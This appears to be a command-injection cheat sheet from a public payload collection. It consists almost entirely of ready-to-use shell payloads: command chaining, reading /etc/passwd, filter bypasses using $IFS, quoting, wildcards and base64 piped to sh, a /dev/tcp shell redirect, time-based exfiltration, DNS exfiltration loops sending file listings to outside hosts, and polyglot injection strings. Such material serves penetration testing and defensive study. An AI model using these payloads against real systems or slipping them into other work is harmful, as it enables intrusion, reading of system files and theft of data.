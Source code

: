 # Command Injection

> Command injection is a security vulnerability that allows an attacker to execute arbitrary commands inside a vulnerable application.

## Summary

* [Tools](#tools)
* [Exploits](#exploits)
  * [Basic commands](#basic-commands)
  * [Chaining commands](#chaining-commands)
  * [Inside a command](#inside-a-command)
* [Filter Bypasses](#filter-bypasses)
  * [Bypass without space](#bypass-without-space)
  * [Bypass with a line return](#bypass-with-a-line-return)
  * [Bypass blacklisted words](#bypass-blacklisted-words)
   * [Bypass with single quote](#bypass-with-single-quote)
   * [Bypass with double quote](#bypass-with-double-quote)
   * [Bypass with backslash and slash](#bypass-with-backslash-and-slash)
   * [Bypass with $@](#bypass-with-)
   * [Bypass with variable expansion](#bypass-with-variable-expansion)
   * [Bypass with wildcards](#bypass-with-wildcards)
* [Challenge](#challenge)
* [Time based data exfiltration](#time-based-data-exfiltration)
* [DNS based data exfiltration](#dns-based-data-exfiltration)
* [Polyglot command injection](#polyglot-command-injection)
* [References](#references)
    

## Tools

* [commix - Automated All-in-One OS command injection and exploitation tool](https://github.com/commixproject/commix)

## Exploits

### Basic commands

Execute the command and voila :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

### Chaining commands

```powershell
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
```

### Inside a command

```bash
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

## Filter Bypasses

### Bypass without space

Works on Linux only.

```powershell
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS$9/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242

%09 bypass space
```

Commands execution without spaces, $ or { } - Linux (Bash only)

```powershell
IFS=,;`cat<<<uname,-a`
```

Works on Windows only.

```powershell
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Bypass with a line return

```powershell
something%0Acat%20/etc/passwd
```

### Bypass Blacklisted words

#### Bypass with single quote

```powershell
w'h'o'am'i
```

#### Bypass with double quote

```powershell
w"h"o"am"i
```

#### Bypass with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

```powershell
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
```

#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```
### Bypass with =
```
a=fl;b=ag.php;cat $a$b      
a=l;b=s;$a$b
```

#### Bypass with base64
```
`echo d2hvYW1p|base64 -d` 
echo Y2F0IGluZGV4LnBocAo=|base64 -d|sh
```


## Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```

## Time based data exfiltration

Extracting data : char by char

```powershell
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

## DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in

## Polyglot command injection

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

```bash
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## References

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
